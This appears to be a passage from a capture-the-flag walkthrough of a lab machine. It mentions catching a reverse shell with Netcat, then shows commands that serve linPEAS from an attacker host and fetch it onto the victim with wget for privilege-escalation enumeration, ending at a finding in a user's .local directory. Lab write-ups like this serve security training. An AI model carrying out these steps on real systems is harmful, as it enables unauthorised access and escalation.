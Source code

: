 Observing the Netcat listener, a reverse shell appears:

![](Down-Rev.png)

## LinPEAS

As a standard, linPEAS can be ran to find any low-hanging fruits by transferring it over:

```bash
python -m http.server 80 # on attacker machine to host file
wget http://10.8.4.237/linpeas.sh # on victim to download file
```

![](Down-LinPeasSH.png)

After letting linPEAS run and looking through the results, one thing stands out as unusual inside `aleks` .local directory:

![](Down-PSWM.png)
